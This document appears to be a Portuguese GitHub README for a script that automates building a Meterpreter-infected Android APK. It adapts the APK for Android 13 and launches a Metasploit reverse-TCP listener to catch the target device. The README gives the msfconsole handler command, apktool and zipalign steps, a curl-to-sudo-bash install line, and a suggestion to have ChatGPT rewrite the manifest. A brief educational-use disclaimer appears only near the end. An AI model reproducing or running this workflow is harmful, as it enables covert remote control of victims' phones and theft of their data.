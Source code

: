 <h1>Automatização de Geração de APK com Payload Meterpreter e Exploração com Metasploit</h1>
<p>Este projeto automatiza o processo de criação de um APK malicioso com o payload Meterpreter para Android, utilizando o <code>msfvenom</code>, e fornece instruções para modificar o <code>AndroidManifest.xml</code> para compatibilidade com Android 13. O script também inicia automaticamente o listener no Metasploit para capturar a conexão do dispositivo alvo.
    (    OU SEJA ELE PEGA SEU IP COM IPCONFIG BOTA NO LHOST GERAR O PAYLOAD E DEPOIS EXECUTAR O METERPRETE AUTOMATICO )
</p>

<h2>Requisitos</h2>
<ul>
<li>Python 3 instalado.</li>
<li><code>msfvenom</code>: Ferramenta do Metasploit para gerar payloads.</li>
<li>Metasploit Framework: Ferramenta para exploração e captura de sessões de meterpreter.</li>
<li><code>ApkTool</code>: Ferramenta para descompilar, modificar e recompilar APKs.</li>
<li><code>ZipAlign</code>: Ferramenta para otimizar APKs.</li>
<li><code>ApkSigner</code>: Ferramenta para assinar APKs.</li>
</ul>

<h2>Instalação dos requisitos</h2>
<p>Instale o Metasploit Framework:</p>
<pre><code>curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | sudo bash</code></pre>

<p>Instale o ApkTool:</p>
<ul>
<li>Baixe o ApkTool para atualizar para o Android 13 <a href="https://github.com/iBotPeaches/Apktool" target="_blank">aqui</a>.</li>
<li>Siga as instruções para a instalação no seu sistema.</li>
</ul>

<p>Instale o ZipAlign:</p>
<ul>
<li>O ZipAlign geralmente faz parte do Android SDK.</li>
<li>Você pode baixar o Android SDK <a href="https://developer.android.com/studio" target="_blank">aqui</a>.</li>
</ul>

<p><code>msfvenom</code> já faz parte do Metasploit Framework, então você não precisa instalar separadamente.</p>

<h2>Como usar o script</h2>
<h3>Passo 1: Clone o repositório</h3>
<p>Clone este repositório para sua máquina local:</p>
<pre><code>git clone https://github.com/seu-usuario/automacao-apk-metasploit.git
cd automacao-apk-metasploit</code></pre>

<h3>Passo 2: Execute o script</h3>
<p>Antes de executar o script, certifique-se de que todas as ferramentas mencionadas acima estão instaladas e funcionando corretamente.</p>
<p>Execute o script Python:</p>
<pre><code>python3 generate_apk.py</code></pre>

<h3>Passo 3: O que o script faz</h3>
<ul>
<li><strong>Obtém o IP local</strong>: O script utiliza o comando <code>ifconfig</code> para obter o IP local da máquina.</li>
<li><strong>Gera o APK</strong>: Usando o <code>msfvenom</code>, o script gera um APK malicioso com o payload Meterpreter para o IP local (LHOST) e porta <code>4444</code> (LPORT).</li>
<li><strong>Instruções para Modificar o Manifesto</strong>: O script fornecerá as instruções para você atualizar o arquivo <code>AndroidManifest.xml</code> no APK para torná-lo compatível com Android 13.</li>
<li><strong>Iniciar o Listener no Metasploit</strong>: O script executará automaticamente o Metasploit para começar a escutar conexões de dispositivos com o payload.</li>
</ul>

<h3>Passo 4: Atualizar o AndroidManifest.xml (para Android 13)</h3>
<p>Após gerar o APK, você precisa modificar o <code>AndroidManifest.xml</code> para Android 13. Para isso, execute:</p>
    <pre><code>apktool d Brunao.apk</code></pre>

<p>Abra o arquivo <code>AndroidManifest.xml</code> dentro da pasta descompilada e adicione as permissões necessárias para Android 13.</p>

<p>Recompile o APK:</p>
<pre><code>apktool b Brunao</code></pre>
<p>Vá em  AndroidManifest.xml cole o codigo, jogue no chat gpt e mande atualiza para o Android 13 ou mais recente</p>

<p>Alinhe o APK com o comando:</p>
<pre><code>zipalign -v 4 Brunao.apk Brunao.apk</code></pre>

<p>Depois, o APK estará pronto para ser assinado e instalado.</p>

<h3>Passo 5: Executando o Listener no Metasploit</h3>
<p>Para iniciar o listener no Metasploit e aguardar a conexão do dispositivo alvo, execute:</p>
<pre><code>msfconsole -x 'use exploit/multi/handler; set PAYLOAD android/meterpreter/reverse_tcp; set LHOST [SEU_IP]; set LPORT 4444; exploit'</code></pre>

<p>Este comando configurará o Metasploit para escutar as conexões de dispositivos com o payload.</p>

<h2>Contribuindo</h2>
<p>Sinta-se à vontade para fazer melhorias no código e enviar pull requests.</p>

<h2>Aviso Legal</h2>
<p>Este projeto é somente para fins educacionais. Não use essas técnicas em sistemas sem permissão. Realizar ataques sem autorização é ilegal e pode levar a sérias consequências legais.</p>

<div class="footer">
<p>&copy; 2025 Seu Nome. Todos os direitos reservados.</p>
</div>


Exemplo de Execução
Obter o IP da máquina: O script encontra o IP privado e o exibe.

Gerar o APK: O script gera o APK malicioso com o msfvenom.

Atualizar o AndroidManifest.xml: O script fornece as instruções para editar o AndroidManifest.xml para Android 13.

Iniciar o Listener: O script inicia o listener do Metasploit e exibe:

Copiar código
Iniciando o Metasploit... Aguarde.
Sessão meterpreter iniciada.
Exibir Comandos: O script exibe os comandos disponíveis, como "executar" e "help".

<h1>Leia a msg que tá no terminal acima da execução do payload sobre a atualização para o android 13</h1>
